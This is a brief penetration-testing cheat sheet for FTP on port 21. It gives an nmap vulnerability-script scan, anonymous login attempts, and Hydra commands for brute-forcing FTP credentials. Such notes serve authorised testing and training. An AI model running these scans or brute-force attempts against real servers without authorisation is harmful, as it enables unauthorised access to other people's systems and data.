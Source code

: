# 21\_FTP

## Background

If you can't get access to FTP through these steps, then you need credentials from some other area to authenticate.

## Exploit

### Test NSE Common Vulnerabilities

NSE has a number of scripts available to test for common vulnerabilities in this service.

```text
nmap --script=ftp-anon,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 [IP]
```

### Anonymous Login

Many FTP servers allow anonymous users to authenticate. Always attempt to login with anonymous credentials.

```text
ftp [IP] username: [anonymous or anon] password: [anonymous or password]
```

### Brute Force

Hydra has a built-in module for attempting usernames and passwords over FTP.

```text
hydra -t 1 -L [username list/file] -P [password list/file] -vV ftp://[IP]:21
```

```text
hydra -t 1 -C [colon separated username and password list/file] -vV ftp://[IP]:21
```

